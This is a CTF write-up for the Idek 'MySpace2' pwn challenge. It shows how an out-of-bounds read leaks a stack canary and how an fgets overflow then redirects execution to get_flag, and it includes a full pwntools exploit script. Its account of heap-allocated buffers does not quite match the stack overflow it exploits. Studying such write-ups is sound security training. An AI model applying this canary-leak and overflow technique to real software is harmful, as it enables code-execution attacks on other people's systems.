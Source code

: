 ```yaml
---
title: "Idek CTF - MySpace2 PWN Writeup"
date: 2025-09-12T00:00:00+00:00
lastmod: 2025-09-12T00:00:00+00:00
tags: ["PWN", "OOB", "Buffer-Overflow", "Canary"]
categories: ["IdekCtf"]
cover: "images/cover_images/space.jpg"
---
```


# MySpace2 - Idek CTF

## Challenge Description

```

I miss MySpace. Ranking my friends publicly is goated. I decided to bring it back, with new security 
features so we can all win!

````

This binary is a 64-bit ELF executable with the following protections:

```sh
➜  checksec myspace2
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
````

We can see that **PIE is disabled**, the stack has a **canary**, and NX appears to be missing.

## Initial Analysis

The binary exposes several functions:

```c
void all_friends(char (*)[8]);
void display_friend(char (*)[8]);
void edit_friend(char (*)[8]);
void get_flag();
void ignore_me();
int main();
void menu();
```

After analyzing the functions, the most relevant ones are `display_friend` and `edit_friend`.

---

### `display_friend`

This function allows us to select a friend index from `0` to `7`. However, the **index validation is weak**. If we input an out-of-bounds index (e.g., `100`), the program prints an error but still accesses memory at `base + index*8`. This creates a **read out-of-bounds vulnerability**, which we can later leverage to leak the stack canary.

---

### `edit_friend`

The `edit_friend` function allows editing a friend's name. The important part of the code:

```c
char *friends[8];  // each entry points to a 32-byte buffer

for (int i = 0; i < 8; i++) {
    friends[i] = malloc(32);
}
```

The program uses `fgets` to read up to `256` bytes:

```c
fgets(friends[0], 0x100, stdin);
```

This clearly leads to a **buffer overflow**. Initially, the canary may seem to prevent exploitation, but using the weak validation in `display_friend`, we can leak the canary value from the stack.

---

### Leaking the Canary

By examining the stack at the return of `edit_friend`, we can identify the canary's location:

```sh
pwndbg> x/40gx $rsp
...
0x7fffffffde88: 0x6e625af2170ce400  <- likely stack canary
...
```

Using `display_friend` with an out-of-bounds index (specifically, index 13) allows us to reliably read the stack canary. When editing friend #7, the canary is located approximately 48 bytes into the buffer. Once we have the canary, we can safely construct an exploit bypassing stack protection.

---

## Exploit Strategy

The challenge is essentially a **ret2win**:

1. Leak the **stack canary** using `display_friend`.
2. Overflow the buffer in `edit_friend` while preserving the canary.
3. Overwrite the return address with the address of `get_flag()`.

---

## Exploit Code

```python
from pwn import *

#io = process('./myspace2')
io = remote('myspace2.chal.idek.team',1337)

get_flag = p64(0x40129d)
offset1 = b'A' * 48

# Leak the canary
io.sendlineafter(b'>>', b'3')
io.sendlineafter(b':', b'13')
leak = io.recvuntil(b'\n1. See Top Friends')
canary_line = leak.split(b'\n')[-2]

canary = canary_line[:8]
canary = u64(canary.ljust(8, b'\x00'))  # Convert to integer (little-endian)
canary_packed = p64(canary)   

log.success(f"Canary: {canary_packed.hex()}")

# Build payload
payload = offset1 + canary_packed + b"A"* 8 + get_flag
io.sendlineafter(b'>>', b'2')
io.sendlineafter(b':', b'7')
io.sendlineafter(b':', payload)
io.sendlineafter(b'>>', b'4')

io.interactive()
```

Running Exploit:

{{< figure src="/images/posts_images/idekctf/run_exploit.png" alt="exploit output" >}}


---

## Conclusion

This challenge highlights:

* **Out-of-bounds reads** can be leveraged to leak stack canaries.
* **Heap-allocated buffers** combined with improper bounds checking can lead to buffer overflows.
* Careful analysis of binary protections is essential to craft a reliable exploit.

This was a clean example of bypassing stack canaries to achieve a ret2win exploit in a CTF scenario.

If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.



